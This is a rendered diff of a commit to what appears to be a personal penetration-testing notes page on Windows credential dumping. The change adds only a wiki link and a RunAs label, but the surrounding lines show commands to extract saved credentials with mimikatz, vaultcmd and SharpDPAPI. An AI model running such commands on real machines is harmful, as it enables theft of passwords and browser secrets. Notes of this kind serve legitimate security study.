

Before and after one commit to HackerTyperAbuser/AttackNotes, a Markdown page: Post Exploitation/Windows/Credential Dumping.md, 2 parts joined by grey strips. GitHub-like rendering.

Commit message:
update: credential manager

````diff
--- a/Post Exploitation/Windows/Credential Dumping.md
+++ b/Post Exploitation/Windows/Credential Dumping.md
@@ -13,6 +13,7 @@ mimikatz.exe dpapi::chrome /in:"C:\Users\bob\AppData\Local\Google\Chrome\User Da
 ```
 
 ### Windows Credential Manager (T1555.004)
+[[Windows Credential Manager]]
 Saved credentials
 ```cmd
 vaultcmd /listcreds:"Windows Credentials" /all
@@ -27,7 +28,7 @@ Decrypting DPAPI
 ```cmd
 SharpDPAPI.exe credentials /rpc
 ```
-
+Privilege Escalation `RunAs`
 [RunAs](RunAs.md)
 ### OS Credential Dumping (T1003)
 T1003.001 [LSASS.exe](LSASS.exe.md)
````
Also changed, not shown: Post Exploitation/Windows/RunAs.md (+1 -0 lines), img/Pasted image 20261030103757.png (added), 1 other file.
